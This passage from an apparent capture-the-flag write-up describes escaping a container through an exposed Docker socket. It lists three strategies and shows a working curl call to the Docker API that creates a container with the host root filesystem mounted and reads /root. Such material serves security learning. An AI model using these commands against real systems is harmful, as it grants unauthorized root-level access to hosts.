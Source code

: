 
This command it basically the equivalent of running `docker ps`.

### Strategy

The next step is to start a container with the root files system mapped into
it and then to run commands in that container getting access to the root file
system.

The challenge here is just reading the [API
docs](https://docs.docker.com/engine/api/v1.30/) and figuring out which to use
and what parameters are required.

I found three strategies that worked:

  1. Command set at container creation: 
     * Create a container with the host filesystem mapped into it and a command;
     * Start the container;
     * Get command results from Docker logs;
  2. Container with `exec`: 
     * Create a container;
     * Start the container;
     * Create an `exec` instance;
     * Start `exec` instance;
  3. Container + `socat` = shell: 
     * Create a container;
     * Start the container;
     * Attach `socat` to the container to get a shell

### Run Commands w/ Host FS [Method #1]

#### Create Container

I’ll start with the `/container/create` [API
call](https://docs.docker.com/engine/api/v1.30/#operation/ContainerCreate). It
takes a POST, with a ton of potential arguments. I had to play around with
this a bunch to get something that worked, but the command I ended up using
was:

    
    
    root@2d24bf61767c:~# curl --unix-socket /var/run/docker.sock -s -X 'POST' -H 'Content-Type: application/json' --data-binary '{"Image": "sandbox:latest","HostConfig": {"Binds": ["/:/rootfs"]}, "Cmd": ["/bin/sh", "-c", "ls -l /rootfs/root/"], "Tty": true}' http://localhost/containers/create
    {"Id":"0af5539d4b1cf764a116301fb13938cb361cd0386b6fbc4fb750661d1d226b36","Warnings":[]}
    

It returns the ID of the new container without any warnings, so it worked.

The POST body is:

    
    
    {
      "Image": "sandbox:latest",
      "HostConfig": {
        "Binds": [
          "/:/rootfs"
        ]
      },
      "Cmd": [
        "/bin/sh",
        "-c",
        "ls -l /rootfs/root/"
      ],
      "Tty": true
    }
    